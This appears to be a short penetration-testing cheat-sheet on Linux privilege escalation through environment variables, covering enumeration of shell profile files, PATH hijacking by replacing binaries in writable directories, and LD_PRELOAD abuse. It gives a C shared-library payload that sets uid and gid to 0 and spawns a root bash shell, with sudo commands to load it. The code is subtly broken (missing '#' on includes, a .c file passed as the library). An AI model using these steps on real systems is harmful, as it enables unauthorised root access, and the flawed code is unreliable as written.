 # General
```
cat /etc/profile 
cat /etc/bashrc 
cat ~/.bash_profile 
cat ~/.bashrc 
cat ~/.bash_logout 
env set 
```

# $PATH Variable

## Background
- PATH variable is an environment variable that specifies where executable programs are located. 
- If you type in $PATH in a Unix machine, it will output the directories where various executables are stored. 
- System tries to identify programs in the file locations of the variable going from left to right.

## Attack Vector
1. Identify any programs that redefined the PATH variable as part of execution or identify where the default PATH variable points to.  
2. Evaluate the permissions of the folder locations in the PATH variable to see if we have write access to any of them. 
3. If we have write access to any of the folders we can delete the legitimate binary in the folder location and replace it with a malicious one that is executed by a program or Cron job.

# $LD_PRELOAD Variable

## Background
- LD_PRELOAD is an environment variable that can be set to point to any shared libraries specified. The dynamic linker on the Unix system will load these shared libraries before other libraries. 
- If we have SUDO access to a program that needs to load libraries for operation and also have access to the LD_PRELOAD variable, we can force the program to load and execute our malicious libraries first before the legitimate ones.

## Attack Vector
1. Create a malicious program 
```
include <stdio.h> 
include <sys/types.h>  
include <stdlib.h> 

void _init()  
{ unsetenv("LD_PRELOAD"); 
  setgid(0); 
  setuid(0);  
  system("/bin/bash"); 
} 
```

2. Compile programm if necessary. 
3. Load the new library executable first when running a program we have sudo privileges to and we get root. 
```
Sudo LD_PRELOAD=[path to malicious program] [normal sudo program]
```
```
Sudo LD_PRELOAD=/tmp/bad.c find
```
